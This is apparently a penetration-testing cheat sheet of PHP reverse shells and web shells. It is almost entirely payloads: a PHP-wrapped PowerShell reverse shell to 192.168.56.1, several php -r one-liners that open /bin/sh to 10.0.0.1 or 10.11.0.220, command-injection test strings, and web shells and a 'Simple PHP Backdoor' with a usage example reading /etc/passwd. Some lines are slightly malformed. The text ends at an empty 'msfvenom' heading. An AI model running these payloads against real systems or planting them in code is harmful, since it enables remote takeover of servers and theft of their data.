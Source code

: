 #### <mark style="color:green;">windows</mark>

```
<?php echo shell_exec("powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.56.1',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"")?>
```

### <mark style="color:orange;">PHP one-liner</mark>

This code assumes that the TCP connection uses file descriptor 3.f it doesn’t work, try 4, 5, 6…

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

Try this first

```
message=test;phpinfo(); 
message=test;system(‘ls -la’); 

<?php echo exec($_REQUEST['c']);?>
```

​​Try this next if the first doesn't work

```
<?php echo exec($_GET['c']); ?>

<?php -r '$sock=fsockopen(10.11.0.220",1234);exec("/bin/sh -i <&d >&%d 2>&%d",f,f,f)' ?>
```

#### <mark style="color:green;">Simple PHP Backdoor By DK (One-Liner Version)</mark>

Usage:

```
http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd 

 <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>


php -r '$sock=fsockopen(10.11.0.220",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### <mark style="color:orange;">msfvenom</mark>
